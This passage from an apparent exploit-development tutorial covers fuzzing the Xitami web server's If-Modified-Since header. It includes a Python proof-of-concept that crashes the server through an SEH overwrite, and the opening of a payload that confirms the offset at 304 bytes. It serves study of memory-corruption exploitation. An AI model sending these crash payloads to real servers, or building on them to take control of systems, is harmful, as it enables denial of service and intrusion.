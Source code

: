 `"If-Modified-Since"` now has the day included along with a comma. This entity will not be fuzzed as it's set to `fuzzable = False`. The `"If-Modified-Since-Value"` entity has been shortened and we have deleted the fuzzable declaration so now it will be fuzzed. 

Sending this to our webserver nets us our crash!

![](/assets/images/CTP/xitamiSad.JPG)

So, lesson learned on that one. Fuzzing is not always just about smashing applications with data, we should be intelligently fuzzing applications. Looking at the [Mozilla.org Documentation for 'If-Modified-Since'](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-Modified-Since), it looks like the overflow occurs on the '<day>' value, possibly due to some conversion process on the server side. (Huge thanks to firzen and v0idptr for their insights on this!)
	
So now that we have our crash, let's replicate it:
```python
import socket
import sys

host = "192.168.1.201"
port = 80

crash = "A" * 1000

req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```

This also nets us our crash and we can see that we have overwritten both 4 byte components of the SEH chain. 

![](/assets/images/CTP/SEHxitami.JPG)

## POP POP RET

At this point we know the drill. First we have to find our offset to the SEH overwrite and then let mona find us a `POP POP RET` address. Mona tells us that our offset is at 304. Let's ensure we are correct and send the following payload:
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "BBBB"
nseh = "CCCC"

#PO @ 304
crash = "A" * 304
crash += nseh
crash += seh
crash += "D" * (1000 -len(crash))
```